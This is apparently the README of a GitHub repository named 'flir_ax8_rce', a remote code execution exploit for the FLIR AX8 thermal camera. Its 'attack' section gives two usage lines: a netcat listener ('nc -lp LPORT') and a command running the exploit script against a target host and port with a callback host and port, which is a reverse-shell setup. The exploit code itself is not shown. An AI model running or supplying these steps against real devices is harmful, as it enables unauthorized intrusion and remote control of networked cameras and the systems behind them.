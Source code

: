 # flir_ax8_rce

attack:
nc -lp LPORT
python3 exp.py --RHOST RHOST --RPORT RPORT --LHOST LHOST --LPORT LPORT



